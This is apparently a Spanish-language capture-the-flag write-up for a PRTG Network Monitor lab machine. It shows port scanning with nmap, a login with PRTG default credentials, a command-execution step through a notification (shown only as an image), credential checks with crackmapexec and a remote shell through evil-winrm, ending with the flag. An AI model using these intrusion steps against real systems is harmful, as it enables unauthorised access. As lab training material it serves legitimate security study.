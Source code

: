 # Laboratorio: PRTG Monitor 🤵

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    <img src="./assets/PRTG/01-Ports.PNG">
</p>

---

2. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

<p align="center">
    <img src="./assets/PRTG/02-Version.PNG">
</p>

---
3. Tratamos de loguearnos con las credenciales por defecto `prtgadmin:Password123`
---
4. Nos dirigimos a `Notifications`

<p align="center">
    <img src="./assets/PRTG/03-Notifications.PNG">
</p>

Y creamos una nueva notificación

<p align="center">
    <img src="./assets/PRTG/04-Add.PNG">
</p>

---

5. Colocamos lo siguiente al crear una nueva notificación

<p align="center">
    <img src="./assets/PRTG/05-RCE.PNG">
</p>

---

6. Con **crackmapexec** validaremos las credenciales
* `crackmapexec smb 10.129.219.229 -u estxestx1 -p EsTX123!`

```
SMB         10.129.219.229  445    APP03            [*] Windows 10.0 Build 17763 x64 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.219.229  445    APP03            [+] APP03\estxestx1:EsTX123! (Pwn3d!)
```

---

7. Usamos `evil-winrm` para loguearnos en el sistema y leeremos la **flag** 🏴
* `evil-winrm -i 10.129.219.229 -u [Usuario] -p [Password]`

```cmd
*Evil-WinRM* PS C:\Users\Administrator\Desktop>type flag.txt
WhOs3_m0nit0ring_wH0?
```